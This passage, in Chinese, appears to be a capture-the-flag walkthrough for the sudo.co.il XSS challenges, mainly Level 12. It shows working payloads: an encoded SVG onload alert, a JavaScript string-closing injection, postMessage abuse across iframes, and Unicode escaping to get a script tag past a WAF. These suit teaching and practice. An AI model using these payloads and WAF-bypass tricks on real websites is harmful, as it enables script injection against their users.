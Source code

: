 **成功弹窗！** 题目要求弹出`document.domain`，将`alert(1)`改一下就可以了:
```html
p=%3C%73%76%67%2F%6F%6E%6C%6F%61%64%3D%61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%64%6F%6D%61%69%6E%29%3E& p=test
```

### Level 12

**思路**  
首先分析页面源码，发现这个页面包含了一个嵌套的`<iframe>`，而 payload 则是被注入到了`<iframe>`中。尝试输入`';//`发现可以
闭合之前的JS语句，那么这里就可以注入JS代码了。根据提示，首先尝试将`changeme`的内容改成`PWNED`，注入如下代码：
```html
';parent.document.getElementById("changeme").innerHTML="PWNED";//
```
结果页面没有任何变化，从浏览器控制台可以看到错误信息`Uncaught DOMException: Permission denied to access property "document" on cross-origin object`。
观察后发现，原来`<iframe>`和当前页面不同源，因此无法访问当前页面文档。再分析一下页面的JS代码，主要有两个：
* sudo.co.il/xss/1evel12.js
* untrusted.sudo.co.il/level12.js
发现后者会向其`parent`发送消息，内容是变量`m`，而前者则允许来自`untrusted.sudo.co.il`的消息，并将其内容写入到当前网页中。
因此考虑修改变量`m`的内容来注入：
```html
';m='test-message';//
```
这回`test-message`被成功注入到了网页中！接下来考虑注入一个HTML标签：
```html
';m='<b>test</b>';//
```
结果触发了WAF的过滤，要想办法绕过。首先考虑编码绕过。HTML可以接受UNICODE编码，因此可以尝试对注入的标签做UNICODE编码。
[xssaq.com](https://xssaq.com/bm.html) 可以很方便的进行编码。
```html
';m='\u003c\u0062\u003e\u0054\u0045\u0053\u0054\u003c\u002f\u0062\u003e';//
```
结果成功注入了标签，接下来尝试`<script>alert(document.domain)</script>`的UNICODE编码注入：
```html
';m='\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u0064\u006f\u006d\u0061\u0069\u006e\u0029\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e';//
```
成功弹窗！